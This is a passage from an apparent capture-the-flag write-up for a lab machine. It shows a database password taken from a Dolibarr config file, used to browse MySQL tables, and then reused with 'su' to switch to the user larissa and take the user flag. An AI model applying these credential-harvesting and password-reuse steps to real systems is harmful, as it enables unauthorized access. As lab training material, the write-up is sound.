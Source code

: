 We thus note down a credential set that can be used:
`dolibarrowner:serverfun2$2023!!`

We can try to log into MySQL using these credentials. Then, use the `dolibarr` DB and look for tables of interest.

```
mysql> use dolibarr
use dolibarr
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------------------------------------------------+
| Tables_in_dolibarr                                          |
+-------------------------------------------------------------+
<SNIP>
| llx_tva                                                     |
| llx_user                                                    |
| llx_user_alert                                              |
| llx_user_clicktodial                                        |
| llx_user_employment                                         |
| llx_user_extrafields                                        |
| llx_user_param                                              |
| llx_user_rib                                                |
| llx_user_rights                                             |
| llx_usergroup                                               |
| llx_usergroup_extrafields                                   |
| llx_usergroup_rights                                        |
| llx_usergroup_user                                          |
<SNIP>
```

If we view the `llx_user` table, we find some password hashes for the `dolibarr` and `admin` users. However, there is not much point in cracking these as they are credentials for the web application.

* We also note that these passwords cannot be cracked normally.

Since we have the default DB admin password, we can try to check for password reuse.

If we try to `su` as `larissa` using the `MySQL` DB admin password, we will successfully login.

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
su larissa
Password: serverfun2$2023!!

larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ whoami
whoami
larissa
```

We can thus capture the user flag.
